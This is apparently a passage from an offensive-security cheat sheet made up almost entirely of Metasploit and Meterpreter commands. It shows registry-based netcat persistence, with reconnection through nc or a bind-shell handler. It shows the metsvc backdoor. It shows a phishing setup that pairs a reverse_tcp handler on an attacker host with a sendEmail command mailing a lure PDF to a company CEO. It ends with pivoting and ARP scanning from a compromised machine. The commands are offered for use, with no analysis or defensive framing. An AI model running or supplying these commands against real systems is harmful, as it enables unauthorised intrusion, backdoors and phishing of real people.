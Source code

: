 Verify changes to the registry.
```
meterpreter > reg queryval -k HKLM\\software\\windows\\currentversion\\run -v netcat
```

Reboot the target system.
```
meterpreter >  reboot
```

Connect to target system - option 1
```
nc -vn <target IP> 4444
```

Connect to target system - option 2
```
use multi/handler
set PAYLOAD windows/shell_bind_tcp
set RHOST <target IP>
exploit
```

Example 2
```
meterpreter > run metsvc
Note the port that is used.
use multi/handler
set PAYLOAD windows/metsvc_bind_tcp
set LPORT <port>
set RHOST <target IP>
exploit
```
------------------------------------------------------------------------------------------------------

### Phishing
```
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <attacker IP>
set EnableStageEncoding true
set ExitOnSession false
set LPORT 22
exploit -j

```
```
sendEmail -t ceo@target.com -f hacker@gmail.com -s <target IP> -u Salaries -a /root/Desktop/salaries.pdf
```
------------------------------------------------------------------------------------------------------

### Meterpreter - Pivoting

```
meterpreter > ipconfig
192.168.0.10
255.255.255.0

10.0.0.5
255.255.255.0

```
```
meterpreter > run arp_scanner -r 10.10.10.1/24
10.0.0.1
10.0.0.2
10.0.0.5
```